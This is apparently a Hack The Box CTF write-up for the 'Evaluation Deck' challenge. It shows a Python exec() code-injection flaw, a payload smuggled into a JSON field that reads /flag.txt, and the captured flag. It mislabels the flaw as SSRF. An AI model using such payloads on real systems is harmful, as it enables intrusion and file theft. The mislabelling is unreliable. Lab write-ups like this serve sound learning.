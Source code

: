 ```yaml
---
id: ea3ee1o3y5c6rhoixoapcj8
title: Evaluation Deck
desc: ''
updated: 1666458680828
created: 1666448168870
tags:
  - hackthebox
  - web
  - code-injection
  - python
---
```


## Target Information

- IP: `157.245.42.104:31254`
- Game application with public API at `http://157.245.42.104:31254/api/get_health`
  - Can interface with it via `curl`:
      ```shell
      curl -X POST -H "Content-Type: application/json" -d '{"attack_power":"90","current_health":"100","operator":"+"}' http://157.245.42.104:31254/api/get_health
      ```
- Running Docker

## Exploitation

- Opened the application in the Burp Suite proxy and sent a request to the API:

    ```json
    {
      "attack_power": "90",
      "current_health": "100",
      "operator": "+"
    }
    ```

    The response was:

    ```json
    {
      "message": "190"
    }
    ```

    This means that the API is vulnerable to a [server-side request forgery](https://portswigger.net/web-security/ssrf) attack.

    The following lines in `routes.py` show that the API is vulnerable:

    ```python
    code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
    exec(code, result)
    return response(result.get('result'))
    ```

- Attempted to use the API to access the flag on the Docker filesystem:

    ```json
    {
      "attack_power": "0",
      "current_health": "0",
      "operator": "+ int(''.join([str(ord(x)) for x in list(open('/flag.txt').read())])) +"
    }
    ```

    The response was:

    ```json
    {
      "message": 728466123994810051954911010651991164948110115955211451957111451971163333125
    }
    ```

    I converted this number from the Python `ord` positions of the flag to ASCII to get the flag:

    ```text
    HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}
    ```

## Final Thoughts

A complete write-up of this challenge can be found on [Medium](https://medium.com/meese-enterprises/walkthrough-hack-the-boo-2022-evaluation-deck-challenge-8933e0b4b168), please check it out and show your support by leaving some claps and sharing it with your friends!

The files for this challenge can be found in the [assets folder](./assets/hackthebox/HackTheBoo2022/EvaluationDeck/) if you would like to try it out for yourself.
